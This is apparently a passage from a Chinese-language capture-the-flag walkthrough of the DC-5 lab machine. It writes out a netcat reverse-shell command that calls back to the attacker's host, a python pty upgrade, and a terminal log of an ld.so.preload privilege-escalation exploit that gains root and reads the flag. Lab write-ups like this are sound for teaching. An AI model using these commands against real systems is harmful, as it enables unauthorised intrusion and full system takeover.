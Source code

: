 把rootshell，libhax在kali上编译后，和41154.sh一起通过蚁剑传到目标主机上

在蚁剑的终端中执行了下，但是发现不能进入交互界面

![image-20210417154155685](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210417154155685.png)

反弹shell并用python获取一个交互性强的shell

蚁剑终端

`(www-data:/tmp) $ nc -e /bin/bash 192.168.72.153 6666`

kali

```shell
nc -lnvp 6666                                                                                         
listening on [any] 6666 ...
connect to [192.168.72.153] from (UNKNOWN) [192.168.72.158] 47189
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@dc-5:/tmp$ 
www-data@dc-5:/tmp$ ./41154.sh                                                                                                                                                                                                               
./41154.sh                                                                                                                                                                                                                                   
bash: ./41154.sh: Permission denied                                                                                                                                                                                                          
www-data@dc-5:/tmp$ chmod +x 41154.sh                                                                                                                                                                                                        
chmod +x 41154.sh                                                                                                                                                                                                                            
www-data@dc-5:/tmp$ 41154.sh                                                                                                                                                                                                                 
41154.sh                                                                                                                                                                                                                                     
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# whoami
whoami
root
# cd /
cd /
# ls
ls
bin   etc         lib         media  proc  sbin   sys  var
boot  home        lib64       mnt    root  share  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv    usr
# cd /root/
cd /root/
# ls
ls
thisistheflag.txt
# cat thisistheflag.txt
cat thisistheflag.txt

```